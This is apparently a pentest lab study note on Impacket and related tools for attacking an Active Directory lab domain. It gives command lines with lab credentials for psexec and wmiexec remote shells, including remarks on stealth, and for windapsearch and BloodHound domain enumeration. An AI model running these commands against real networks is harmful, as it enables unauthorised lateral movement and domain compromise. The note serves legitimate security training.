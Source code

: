 ```yaml
---
description: The coolest toolkit in the world
---
```


# Impacket Toolkit

## Introduction

* Impacket provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python
* This tool is well maintained and has many contributors

## psexec.py

* This is <mark style="color:yellow;">one of the most useful tools</mark>
* This is a <mark style="color:yellow;">clone of the Sysinternals psexece executable</mark> but works slightly different
* <mark style="color:yellow;">The tool works by creating a remote service by uploading a randomly-named executable to the ADMIN$ share on the host</mark>
* It then registers the service via RPC
* <mark style="color:yellow;">Once established, communication occurs over a pipe, allowing for an interactive shell as SYSTEM on the victim</mark>

```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## wmiexec.py

* wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation or WMI
* It does not drop any files or executables on the target host and generates fewer logs than other modules
* Once connected, it will run the local admin user we connected with&#x20;
  * This is good because it is must stealthier than seeing SYSTEM executing commands

```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

<figure><img src="../../.gitbook/assets/image (1) (7) (1).png" alt=""><figcaption></figcaption></figure>

## Windapsearch.py

* This is a tool that can be used to enumerate users, groups, and computers from a Windows admin by utilizing LDAP queries

### Domain Admins

Enumerate all Domain Admins:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

### Privileged Users

Enumerate all privileged users:

```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## BloodHound.py

Similar to the <mark style="color:yellow;">BloodHound and SharpHound duo</mark>, this is an <mark style="color:yellow;">all-in-one package</mark> that <mark style="color:yellow;">allows a remote attacker with valid domain credentials to be able to enumerate the entire AD domain</mark>!

Help:

```
bloodhound-python -h
```

Collection Method "all":

```
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

<figure><img src="../../.gitbook/assets/image (8) (6).png" alt=""><figcaption></figcaption></figure>

* After the command completes, you will see four .json files

<figure><img src="../../.gitbook/assets/image (5) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* We need to upload these into BloodHound, but the easiest way is to zip them and just place one zip file in BloodHound

```
zip -r domain_BH_info.zip *.json
```

* This will zip up all of the .json files and we can upload this data into BloodHound!
